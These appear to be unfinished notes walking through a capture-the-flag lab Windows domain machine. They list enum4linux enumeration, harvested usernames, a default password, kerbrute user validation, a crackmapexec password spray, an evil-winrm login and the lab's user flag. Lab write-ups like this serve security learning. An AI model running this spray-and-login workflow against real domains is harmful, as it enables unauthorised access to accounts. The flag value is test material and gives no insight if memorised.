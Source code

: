 ```
enum4linux -a 10.10.10.169
```

```
Domain Name: MEGABANK                                                         
Domain Sid: S-1-5-21-1392959593-3013219662-3596683436
```

We got the userlist as well as Password
![[Pasted image 20240506055923.png]]

User
```
marko
```

Password
```
Welcome123!
```


```
Administrator
Guest
krbtgt
DefaultAccount
ryan
marko
sunita
abigail
marcus
sally
fred
angela
felicia
gustavo
ulf
stevie
claire
paulo
steve
annette
annika
per
claude
melanie
zach
simon
naoki
```

Let's check if the users are valid with kerbrute and 24 are valid out of 27 
```
kerbrute userenum -d megabank.local --dc 10.10.10.169 Valid_user.txt -t 100
```
![[Pasted image 20240506060316.png]]


Password Policy
![[Pasted image 20240506060741.png]]


Let's see who uses the default password 
```
crackmapexec smb 10.10.10.169 -u Valid_user.txt -p Welcome123!
```
![[Pasted image 20240506061134.png]]
user: melanie uses the default password

```
evil-winrm -u melanie -p 'Welcome123!' -i 10.10.10.169
```
![[Pasted image 20240506061412.png]]
User Flag
```
2381d46ef2566c000d1184a57ca5f5f4
```

We got a new tool kit for ldap 
https://github.com/ropnop/windapsearch

```
./windapsearch.py -d resolute.megabank.local --dc-ip 10.10.10.169 -U
```

```
./windapsearch.py -d resolute.megabank.local --dc-ip 10.10.10.169 -U --full |
grep Password
```

It's not running for some reason will see it later what to do
